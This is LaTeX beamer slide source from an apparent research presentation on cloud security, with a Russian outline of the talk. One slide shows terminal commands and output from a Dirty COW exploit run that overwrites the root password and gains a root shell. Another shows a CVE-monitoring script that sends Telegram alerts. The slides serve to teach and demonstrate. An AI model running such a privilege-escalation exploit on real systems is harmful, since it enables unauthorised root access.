 \begin{frame}
\frametitle{\insertsection}
\framesubtitle{Dirty COW (Copy-on-write)}

{\small \texttt{\$ id \\
{\color{green} uid=1000(dcow)} gid=1000(dcow) groups=1000(dcow)
}}

\vspace{\baselineskip}

{\small \texttt{\$ g++ dcow.cpp -std=c++11 -pthread -lutil -o dcow \\
\$ ./dcow \\
Running ... \\
Received su prompt (Password: ) \\
Root password is: dirtyCowFun \\
Enjoy! :-)}}

\vspace{\baselineskip}

{\small \texttt{\$ su root \\
Password: dirtyCowFun \\
\# id \\
{\color{red} uid=0(root)} gid=0(root) groups=0(root)
}}
\end{frame}


\section{Vulncontrol}

\begin{frame}
\frametitle{\insertsection}

{\scriptsize \texttt{\$ ./vulncontrol.py −d 2017−02−18 −m 5 -t \$TOKEN:\$ID \\
CVE−2017−6074 9.3 http://www.cvedetails.com/cve/CVE−2017−6074/ \\
CVE−2017−6001 7.6 http://www.cvedetails.com/cve/CVE−2017−6001/ \\
CVE−2017−5986 7.1 http://www.cvedetails.com/cve/CVE−2017−5986/ \\
Telegram alert sent
}}

\begin{figure}[h]
    \center
    \texttt{[image: tscreen]}
\end{figure}
\end{frame}


\iffalse
максимум 10 слайдов
по 1 минуте на слайд
картинки, схемы, таблицы, примеры кода, списки, скриншоты

обзор источников
системный анализ
вариантный анализ
безопасность облачных вычислений
экспериментальные исследования
- крит. уязвимости
- эксплуатация dirty cow
- vulncontrol
анализ результатов

1. описать актуальность исследования
2. описать текущие проблемы в облаках
3. как эти проблемы решаются
4. какие проблемы не решаются
5. что я сделал для решения проблем
...
\fi
